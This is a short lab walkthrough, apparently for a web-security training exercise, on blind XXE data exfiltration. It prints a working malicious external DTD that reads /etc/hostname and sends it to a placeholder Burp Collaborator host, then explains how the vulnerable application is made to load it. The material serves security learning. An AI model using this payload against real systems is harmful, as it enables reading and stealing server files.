



First, we must host a DTD in our Burp collaborator so that when the application asks for our data, we give them the DTD and the application processes it.

The malicious DTD that will display the contents of the `/etc/hostname` file are the following:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> 
%eval; %exfil;
```

This basically saves into file the value of `/etc/hostname` and sends it in a request to our Burp Collaborator subdomain.

First, in Burp Suite exploit server we declare a malicious DTD pointing to our BurpSuite collaborator to exfiltrate the data:


Then, in the application we add a XXE pointing to this exploit server, so these orders are read and executed:


Sending this request will made the application visit the exploit server, read the DTD and process it.
In our Burp collaborator we can see the request performed with the exfiltrated data as part of the request. This means that the actions were executed:


